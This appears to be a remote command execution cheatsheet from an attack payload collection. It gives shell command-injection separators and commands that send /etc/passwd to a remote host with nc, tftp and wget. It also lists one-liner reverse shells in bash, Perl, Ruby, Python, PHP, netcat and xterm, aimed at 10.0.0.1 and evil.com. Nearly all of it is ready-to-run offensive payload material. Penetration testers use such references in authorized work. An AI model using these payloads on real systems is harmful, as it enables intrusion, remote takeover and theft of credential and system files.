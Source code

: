 Remote Command Exec Cheatsheet

File notes:

**source-disc-cmd-exec-traversal.fuzz.txt**

usage:
```GET /path/*payload*relative/path/to/target/file/```

**Executing Commands**

Seperating Commands: 
```blah;blah2```

PIPES: 
```blah ^ blah2```

AND: 
```blah && blah2```

OR: 
```FAIL || X```

OR: 
```blah%0Dblah2%0Dblah3```

Backtick: 
``` `blah` ```

Background: 
'`blah & blah2`'

**Exfiltrating Files / Data**

FTP: 
Make a new text file, and echo and then redirect to FTP

NC: 
``` 'nc -e /bin/sh' ```

NC: 
``` 'echo /etc/passwd  | nc host port' ```

TFTP: 
``` 'echo put /etc/passwd | tftp host' ```

WGET: 
``` 'wget --post-file /etc/passwd' ```

**One-Liner Reverse Shells**

On the listener: 
'$ nc -l -p 8080 -vvv'

On the remote host...
Bash:
'$ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1'

'$ exec 5<>/dev/tcp/evil.com/8080'
'$ cat <&5 | while read line; do $line 2>&5 >&5; done'

Perl:
'$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};''

Ruby:
$ ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Python:
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

PHP:
$ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat:
$ nc -e /bin/sh 10.0.0.1 1234

$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

XTERM:
Server: 
$ xterm -display 10.0.0.1:1
Listener:
$ Xnest :1
$ xhost +targetip



More docs: /docs/attack-docs/remote-cmd-exfiltration/
